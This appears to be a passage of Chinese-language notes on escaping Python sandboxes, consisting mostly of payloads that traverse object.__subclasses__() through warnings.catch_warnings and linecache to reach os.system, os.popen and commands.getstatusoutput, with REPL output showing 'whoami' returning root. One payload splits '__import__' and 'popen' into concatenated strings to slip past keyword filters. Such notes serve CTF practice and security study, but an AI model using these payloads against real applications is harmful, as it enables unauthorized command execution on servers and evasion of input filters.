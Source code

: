 新的payload

```
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('ls').read()
```



利用warnings.catch_warnings执行命令

查看warnings.catch_warnings方法的位置

```
>>>[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
59
```

查看linecatch的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
25
```

查找os模块的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
12
```

查找system方法的位置(在这里使用`os.open().read()`可以实现一样的效果,步骤一样,)

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
137
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('popen')
109
```

调用system方法

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[137]('whoami')
root
0
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[109]('whoami').read()
```

利用commands实现命令执行

```
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('whoami')
```
